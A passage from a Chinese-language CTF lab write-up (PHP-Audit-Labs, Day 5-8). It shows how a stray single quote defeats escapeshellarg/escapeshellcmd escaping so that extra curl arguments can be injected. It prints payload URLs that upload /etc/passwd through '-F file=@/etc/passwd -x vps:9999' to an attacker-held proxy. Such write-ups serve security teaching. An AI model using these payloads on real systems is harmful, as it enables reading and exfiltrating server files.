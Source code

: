 ![18](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day5-8/files/5.png)

在字符串增加了引号同时会进行转义，那么之前的payload

```
http://127.0.0.1/index1.php?url=http://127.0.0.1 -T /etc/passwd
```

因为增加了 **'** 进行了转义，所以整个字符串会被当成参数。注意 **escapeshellcmd** 的问题是在于如果 **'** 和 **"** 仅在不配对儿的时候被转义。那么如果我们多增加一个 **'** 就可以扰乱之前的转义了。如下：

![19](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day5-8/files/4.png)

在 **curl** 中存在 **-F** 提交表单的方法，也可以提交文件。 **-F <key=value>** 向服务器POST表单，例如： **curl -F "web=@index.html;type=text/html" url.com** 。提交文件之后，利用代理的方式进行监听，这样就可以截获到文件了,同时还不受最后的的影响。那么最后的payload为：

```
http://baidu.com/' -F file=@/etc/passwd -x  vps:9999
```

![20](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day5-8/files/6.png)
